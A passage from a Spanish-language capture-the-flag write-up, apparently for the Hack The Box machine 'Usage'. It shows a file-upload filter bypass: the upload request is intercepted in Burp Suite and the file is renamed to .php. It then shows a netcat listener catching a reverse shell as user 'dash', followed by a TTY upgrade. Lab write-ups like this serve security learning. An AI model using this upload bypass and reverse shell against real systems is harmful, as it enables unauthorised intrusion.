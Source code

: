 Paso la petición por Burpsuite  y en el nombre del archivo le agregamos `.php`, una vez echo esto le damos a forward
    
![Burpsuite](../assets/images-Usage/Usage17.png)

![Burpsuite2](../assets/images-Usage/Usage.18.png)

Veremos que ahora sale un icono en la imagen, entonces nos ponemos en escucha por el puerto 443 y ahora clickeamos este icono 

![revershell2](../assets/images-Usage/Usage19.png)

Nos ponemos en escucha por el puerto 443 y como vemos al interpretar el código PHP y nos da la shell 
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.18] 43290
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:22:51 up  3:44,  0 users,  load average: 3.27, 2.92, 2.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
dash
$ 
```
Hacemos un tratamiento de la TTY
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
dash@usage:/$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
```